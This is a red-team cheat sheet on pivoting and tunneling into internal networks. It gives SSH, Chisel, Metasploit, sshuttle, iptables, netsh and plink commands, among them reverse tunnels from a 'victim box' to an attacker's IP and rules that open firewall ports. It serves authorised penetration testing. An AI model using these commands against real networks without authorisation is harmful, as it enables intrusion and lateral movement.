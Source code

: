 # Tunneling  
 Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tunneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 


## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    ./chisel server -p LISTEN_PORT --socks5  
    attack    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    ./chisel server -p LISTEN_PORT 
    attack    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > router add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    

 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
